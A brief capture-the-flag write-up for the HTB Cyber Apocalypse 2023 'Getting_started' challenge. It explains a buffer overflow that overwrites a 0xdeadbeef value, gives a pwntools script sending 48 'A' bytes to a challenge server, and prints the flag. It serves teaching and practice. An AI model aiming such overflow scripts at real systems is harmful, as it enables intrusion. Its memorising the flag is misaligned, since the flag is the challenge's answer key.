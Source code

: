 # Getting_started writeup - HTB Cyber Apocalypse 2023

The binary basically tells us it has a buffer overflow and we just need to overflow the 0xdeadbeef value to become anything else.

Sending 48 A's does the trick (but can be done in less).

All the information needed to figure this out is given by the binary itself when running it. No debugging or reversing required, just send a bunch of A's

## Script
```py
from pwn import *

io = remote("167.99.86.8",30042)

io.sendline(b'A'*48)

io.interactive()
```

## Flag
`HTB{b0f_s33m5_3z_r1ght?}`